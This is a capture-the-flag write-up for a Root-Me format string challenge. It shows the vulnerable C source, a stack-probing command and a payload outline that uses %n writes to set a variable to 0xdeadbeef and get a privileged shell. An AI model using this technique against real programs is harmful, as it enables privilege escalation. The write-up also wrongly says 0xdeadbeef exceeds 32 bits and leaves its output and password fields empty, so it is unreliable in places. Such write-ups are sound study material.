 # ELF x86 - Format string bug basic 2
- Point: 20pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en),  8 April 2015
- Level: Medium<br><br>
![image](https://user-images.githubusercontent.com/48288606/141644747-50305e8e-2a4d-4b42-8c15-5d3c4b322654.png)
## Write-up:

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
int main( int argc, char ** argv )
 
{
 
        int var;
        int check  = 0x04030201;
 
        char fmt[128];
 
        if (argc <2)
                exit(0);
 
        memset( fmt, 0, sizeof(fmt) );
 
        printf( "check at 0x%x\n", &check );
        printf( "argv[1] = [%s]\n", argv[1] );
 
        snprintf( fmt, sizeof(fmt), argv[1] );
 
        if ((check != 0x04030201) && (check != 0xdeadbeef))    
                printf ("\nYou are on the right way !\n");
 
        printf( "fmt=[%s]\n", fmt );
        printf( "check=0x%x\n", check );
 
        if (check==0xdeadbeef)
        {
                printf("Yeah dude ! You win !\n");
                setreuid(geteuid(), geteuid());
                system("/bin/bash");
        }
}
```
Our aim is overwriting the **check**'s value. We leverage a vulnerability in 
`snprintf( fmt, sizeof(fmt), argv[1] );` 
with no format specifier. Examine the stack and find a way to change that value.

### Solution:
Let's try looking into the stack by usual payload
`./ch14 $(python -c "print 'AAAA' + '%x'")`
Output:
```
```

Exploit:
"0xdeadbeef"  is too large (over 32 bits), we have to divide **check** into **0xdead (57005)** and **0xbeef (48879)**.
7 times %8x to pull esp in front of the check.
%48811c%n output (0xbeef)
%8126c%n(0xdead)
in other words, payload is (beef address) + (dummy) + (dead address) + %8x*7 + (%48811c%n%8126c%n)
Pass: 


